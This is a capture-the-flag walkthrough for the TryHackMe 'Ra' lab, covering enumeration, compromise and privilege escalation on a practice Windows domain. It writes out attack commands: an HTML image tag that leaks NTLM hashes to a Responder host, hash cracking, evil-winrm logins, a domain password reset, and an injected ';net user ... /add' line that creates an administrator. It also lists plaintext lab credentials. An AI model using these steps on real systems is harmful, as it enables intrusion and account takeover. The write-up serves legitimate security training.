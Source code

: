 ```yaml
---
date: 2025-04-13
categories: [CTF, THM]
title: "THM - Ra"
tags: ['hashcat', 'john the ripper', 'linux', 'nmap', 'powershell', 'privilege escalation', 'rce', 'reverse shell', 'smb', 'windows', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "Ra - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# THM - Ra

NMAP

![image1](../resources/8906737690fe4969b794dacdb443efbe.png)
 

![image2](../resources/ea4a09b3c8ca48fc918a28318ded183b.png)

- Add windcorp.thm and fire.windcorp.thm to /etc/hosts

![image3](../resources/abc8141094704b8b94506719ac7a2052.png)

- On the website there is a Reset password button


![image4](../resources/da51e79efa3c430a9073609676bca745.png)


![image5](../resources/f2c3a93ffdac439ea71393857cb11218.png)

There is a question about your favourite pets name

And we can see that Lily is holding her dog

- Inspecting the picture we can see the dogs name - Sparky and Lily's username - **lilyle**


![image6](../resources/bf8ebf1614094690bf8e77e4ee9d499f.png)

- Reset the password


![image7](../resources/5d49410733974966be169a6f389d2c8b.png)

- We can check if it worked using CME:

```bash
crackmapexec smb windcorp.thm -u lilyle -p ChangeMe#1234

```

![image8](../resources/cb851d01db29483488a032d7baabcbc2.png)

- If it was wrong it would've shown:

![image9](../resources/a8c3a64499d34a9abe4e7a7842f1aea6.png)

- Run enum4linux again with credentials:

```bash
enum4linux -u windcorp.thm/lilyle -p ChangeMe#1234 -a 10.10.128.53

```

![image10](../resources/96cd4bab859849e9b62c65dfb183c748.png)

- Connect to shares:

```bash
smbclient //10.10.128.53/users -U windcorp.thm/lilyle%ChangeMe#1234

```

![image11](../resources/91b2052e029c487ca2444918db024922.png)

```bash
smbclient //10.10.128.53/Shared -U windcorp.thm/lilyle%ChangeMe#1234

```

![image12](../resources/c9fdbd7b1f314b6d9369bbce2dddd9de.png)

- Looking at the files in the share. The files are for an app called Spark which is a client that talks to the Openfire backend

- Looking for vulnerabilities - Found: <https://github.com/theart42/cves/blob/master/cve-2020-12772/CVE-2020-12772.md>
Which the creators of Ra made (so gotta be it)

- More Enum:

![image13](../resources/912a541604ca4877a6c3984cc7e376bc.png)

- Doing inspect network:

![image14](../resources/21188f087d94477b8298bb1cf3a2c34d.png)

- **Openfire (xmpp) usersnames potentially**

Save in file and

```bash
cat users_xmpp_info| cut -d ":" -f 4 | cut -d "@" -f 1 > xmpp_users

```

![image15](../resources/18f388baeaa647dab392f8fb2d486939.png)

- This spark app part, I had to do on the THM Attack box (dependency issues)

```bash
dpkg -i spark_2_8_3.deb

```

![image16](../resources/e9188badf0dd4e00bd5296563d1d0e87.png)

- Just type:

```bash
spark
```

![image17](../resources/10a223938a94415ea7e89448cc3a7c55.png)

- Login with:  
lilyle : ChangeMe#1234

Tick Login as invisible


![image18](../resources/91306d9cc1c247c9b59b745d0f10e6ee.png)

- Tick these:

![image19](../resources/752e1e7070fa4160acaa12dabf01eb0a.png)

- Tried this Spark part for ages and keep getting different errors ie.

![image20](../resources/328c4957a3bb4c978ad1aa0257ff60f3.png)

Moving on:

- Set up Responder:

```bash
sudo responder -I tun0

```
- Craft a message and send it to everyone in the Openfire users list, with the following in:

```text
<img src=http://yourtun0IP/a.png>

<img src="http://10.10.14.66/a.png">

```
- Got a hash for buse

![image21](../resources/02ff9ff0a13644239c6a7d49586753e7.png)

- Save in file (hash) - **Make sure it's all on one line**

- Crack with john:

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt

```

![image22](../resources/12c2aa19c59e4608acfc54edb3ada15b.png)

- Or hashcat:

```bash
hashcat -m 5600 -a 0 hash /usr/share/wordlists/rockyou.txt

```

![image23](../resources/cf2403c39d3b41e984c97d6e1f5525d0.png)

- Got credentials **buse : uzunLM+3131**

- Get shell with evil-winrm:

```bash
evil-winrm -i 10.10.103.165 -u buse -p uzunLM+3131

```

![image24](../resources/51196acbea614604bfdb0e29217e087a.png)

- Everything else in there is a rabbithole

- Suspicious folder in C:\\ that isn't part of the default Windows install (scripts)

![image25](../resources/93e37497fe884a0eb09cb4233990e5d0.png)


![image26](../resources/bb74330a31bd440ea17d0ecc1fd9457b.png)

- When we read the powershell script file

![image27](../resources/046b10acf70247ddab7a60030d6e8f2d.png)

- Two important things:
It gets it's contents from C:\Users\brittanycr\hosts.txt

And it invokes Invoke-Expression

**\*\* Invoke-Expression cmdlet - runs any specified string as a command and returns the results to the console**

- We don't have rights to change or replace the ps1 script or the hosts.txt file in britannycr's directory

- Doing enumeration on the user we have:

```bash
whoami /all

```

![image28](../resources/3dc589c4e11d44dabfd05f06e468d533.png)

- After checking all the groups - one stands out:
**Account Operators**


![image29](../resources/603155f5c5e74c478ded7318e190b139.png)

- With this we can try and change brittanycr's password:

```bash
net user brittanycr Password123! /domain

```

![image30](../resources/b91db5b3d2704154b86f5099a70e7bf1.png)

- We can connect straight to the Users folder through SMB:

```bash
smbclient //10.10.103.165/Users/ -U windcorp.thm/brittanycr%Password123!

```

![image31](../resources/9dd916a9750f4407a67b0ed70306822b.png)

- Create a new hosts.txt file with the following:

```bash
;net user tom Password123! /add;net localgroup Administrators tom /add

```
- The reverse shell scripts got stopped by Windows Defender

- Upload and replace file on SMB (wait 1min for the script to run)


![image32](../resources/6fca0037e4994df1ba9fe2446dd38523.png)


![image33](../resources/cc0d8831ef5b44c7906fbc62fb706112.png)

- Verify with crackmapexec as well:

```bash
crackmapexec smb windcorp.thm -u tom -p "Password123\!"

```

![image34](../resources/36bfe6f6ec4040f8b33fb086f5107ae8.png)

- Use Evil-winrm:

```bash
evil-winrm -i 10.10.103.165 -u tom -p Password123!

cat flag3.txt

```